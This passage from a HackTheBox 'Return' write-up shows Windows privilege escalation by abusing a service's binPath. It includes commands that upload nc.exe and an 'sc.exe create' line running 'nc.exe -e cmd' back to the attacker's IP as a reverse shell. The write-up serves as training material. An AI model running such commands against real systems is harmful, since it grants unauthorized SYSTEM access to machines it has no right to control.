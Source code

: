 Since I now know that I can stop and start services, I can try to escalate privileges by manipulating the **`binPath`** and send me a **Reverse Shell** with `netcat.exe`. I look for the services started on the system and also upload the `nc.exe` executable from my machine to the server.

> **binPath Privilege Escalation**: Services created by SYSTEM having weak permissions can lead to privilege escalation. If a low privileged user can modify the service configuration, i.e. change the **[binPath](https://zflemingg1.gitbook.io/undergrad-tutorials/privilege-escalation/privilege-escalation){:target="_blank"}** to a malicious binary and restart the service then, the malicious binary will be executed with SYSTEM privileges.

```powershell
services
```

```bash
locate nc.exe
cp /opt/SecLists/Web-Shells/FuzzDB/nc.exe .
```

```powershell
upload /home/al3j0/Documents/HackTheBox/Return/content/nc.exe
```

<br/>
<img src="{{ site.img_path }}/return_writeup/Return_12.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/return_writeup/Return_13.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/return_writeup/Return_14.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>

I can try to create directly a service, that at startup looks for the binary to execute in the path where I downloaded the `netcat.exe`. But I do not have the necessary permissions to exploit this attack vector.

>  The SC Create command uses the following format: `sc create serviceName binpath= "path\to\service-wrapper-7.4.exe" optionName= optionValue ...` where: `create` is the command to be run by `SC` (this command name is mandatory to create a service).

```powershell
sc.exe create privescService binPath="C:\Users\svc-printer\Documents\nc.exe -e cmd 10.10.14.6 443"
# Access is denied.       :(
```

<br/>
<img src="{{ site.img_path }}/return_writeup/Return_15.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>

I am trying with different services, some of them generate permission errors, others I can manipulate, but the **Reverse Shell** is not very stable. When I manipulate the **VGAuthService** service it sends me the shell but in a very short time it hangs.
